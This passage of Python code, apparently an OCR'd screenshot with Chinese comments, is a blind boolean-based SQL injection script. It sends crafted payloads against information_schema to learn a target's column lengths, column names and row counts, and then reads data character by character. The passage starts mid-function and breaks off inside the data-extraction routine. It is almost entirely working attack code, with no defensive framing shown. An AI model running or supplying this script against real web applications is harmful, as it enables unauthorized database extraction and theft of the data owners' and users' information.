 ```python
        column_length_list=get_column_length(database,table_name,column_num)
        column_name_list=get_column_name(database,table_name,column_num,column_length_list)
        data_num_list=get_data_num(database,table_name,column_name_list)
        get_data(database,table_name,column_name_list,data_num_list)
#获取各个列的长度
def get_column_length(database,table_name,column_num):
    column_length_list=[]
    for i in range(0,column_num):
        column_length=0
        while True:
            #print(column_length)
            payload=f"'or (select length(column_name) from information_schema.columns where table_name='{table_name}' limit {i},1)={column_length}--+"
            if send_payload(payload):
                print(f"{table_name}的第{i+1}列名长度为：",column_length)
                column_length_list.append(column_length)
                break
            column_length+=1
    return column_length_list
#获取列名
def get_column_name(database,table_name,column_num,column_length_list):
    column_name_list=[]
    for i in range(0,column_num):
        column_name=""
        for j in range(1,column_length_list[i]+1):
            for char in chars:
                #print(char)
                #payload=f"' or (ascii(substr((select column_name from information_schema.columns where table_name='{table_name}' limit {i},1){j},1))={ord(char)} --+"
                payload = f"' OR {ord(char)} = (ASCII(SUBSTR((SELECT column_name from information_schema.columns WHERE table_name='{table_name}' limit {i},1),{j},1)))--+"
                if send_payload(payload):
                    column_name=column_name+char
                    print(f"{table_name}表的第{i+1}列的名为{column_name}")
                    break
        column_name_list.append(column_name)
    return column_name_list

#获取数据个数
def get_data_num(database,table_name,column_name_list):
    data_num_list=[]
    for column_name in column_name_list:
        data_num=0
        while True:
            payload=f"'or (select count({column_name}) from {database}.{table_name}) ={data_num}--+"
            if send_payload(payload):
                print(f"{table_name}表的{column_name}列共有{data_num}条数据")
                data_num_list.append(data_num)
                break
            data_num +=1
    return data_num_list

#获取数据
def get_data(database,table_name,column_name_list,data_num_list):
    for i in range(len(data_num_list)):
        for j in range(data_num_list[i]):
            data_length=0
            while True:
                payload=f"'or (select length({column_name_list[i]}) from {database}.{table_name} limit {j},1) ={data_length}--+"
                if send_payload(payload):
                    print(f"{table_name}表的第{j+1}条数据的第{i+1}列长度为{data_length}")
```
